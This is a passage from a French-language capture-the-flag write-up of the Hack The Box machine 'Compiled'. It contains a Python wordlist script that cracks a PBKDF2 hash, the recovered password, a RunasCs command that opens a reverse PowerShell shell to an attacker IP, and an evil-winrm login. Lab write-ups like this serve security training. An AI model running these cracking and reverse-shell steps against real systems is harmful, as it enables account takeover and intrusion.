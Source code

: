 ```python
import hashlib

def pbkdf2_decrypt(hash_value, salt, iterations, key_length, wordlist_path):
    # Convert the salt and hash to bytes (hex decoding)
    salt = bytes.fromhex(salt)
    hash_value = bytes.fromhex(hash_value)
    
    # Open the wordlist file
    with open(wordlist_path, 'r', encoding='utf-8', errors='ignore') as wordlist:
        for word in wordlist:
            word = word.strip()  # Remove any trailing spaces or newline characters
            
            # Hash the current word using PBKDF2 with HMAC SHA256
            derived_key = hashlib.pbkdf2_hmac('sha256', word.encode(), salt, iterations, dklen=key_length)
            
            # Check if the derived key matches the target hash
            if derived_key == hash_value:
                print(f"Password found: {word}")
                return word  # Return the password if it matches
        print("Password not found in the wordlist.")
        return None  # Return None if no match is found

# Example of usage
hash_value = '97907280dc24fe517c43475bd218bfad56c25d4d11037d8b6da440efd4d691adfead40330b2aa6aaf1f33621d0d73228fc16'
salt = '227d873cca89103cd83a976bdac52486'
iterations = 50000
key_length = 50  # The length of the derived key in bytes
wordlist_path = '/usr/share/wordlists/rockyou.txt'  # Path to the wordlist

# Call the function to start the cracking process
password = pbkdf2_decrypt(hash_value, salt, iterations, key_length, wordlist_path)
```

Grâce au script, nous trouvons le mot de passe: `12345678`.

![Emily password found](/images/HTB-Compiled/emily_pwd.png)

Nous utilisons `RunasCs.exe` pour obtenir un shell sous le nom de `Emily` avec la commande ci-dessous.

```
.\runascs.exe Emily "12345678" powershell -r 10.10.14.231:5555
```

![Emily RunasCs shell](/images/HTB-Compiled/emily_rcs_shell.png)

Il est également possible de se connecter sous le nom de `Emily` via `evil-winrm`, et le drapeau utilisateur se trouve dans `C:\Users\Emily\Desktop`.

```
evil-winrm -u "Emily" -p "12345678" -i compiled.htb
```
